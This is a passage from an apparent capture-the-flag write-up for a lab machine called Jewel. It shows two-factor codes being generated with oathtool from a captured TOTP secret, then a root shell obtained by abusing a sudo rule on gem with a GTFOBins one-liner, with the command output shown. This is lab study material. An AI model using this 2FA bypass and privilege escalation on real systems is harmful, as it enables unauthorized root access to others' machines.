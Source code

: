 
This is likely the two factor request that the `.google_authenticator`
was about.

On my local machine I installed
[oathtool](https://www.nongnu.org/oath-toolkit/man-oathtool.md) with
`apt install oathtool`. Now I can run it and it will show me the code at
any given time. In fact, I can run it with `watch` and it will update
every 2 seconds with the current token.



    root@kali# oathtool -b --totp '2UQI3R52WFCLE6JTLDCSJYMJH4'
    699658



Now I can see what bill can `sudo`:



    bill@jewel:~$ sudo -l
    [sudo] password for bill: 
    Verification code: 
    Matching Defaults entries for bill on jewel:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        insults

    User bill may run the following commands on jewel:
        (ALL : ALL) /usr/bin/gem



It is important to make sure that your local clock is in sync with the
clock on Jewel, as this is a time based code.

### gem

Since bill can run `sudo gem`, now is a good time to check
[gtfobins](https://gtfobins.github.io/gtfobins/gem/#sudo), which
provides the following:



    sudo gem open -e "/bin/sh -c /bin/sh" rdoc



I'll give it a try, and it works:



    bill@jewel:~$ sudo -l                                            
    [sudo] password for bill: 
    Verification code: 
    Matching Defaults entries for bill on jewel:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
        insults

    User bill may run the following commands on jewel:
        (ALL : ALL) /usr/bin/gem
    bill@jewel:~$ sudo gem open -e "/bin/sh -c /bin/sh" rdoc
    # id
    uid=0(root) gid=0(root) groups=0(root)

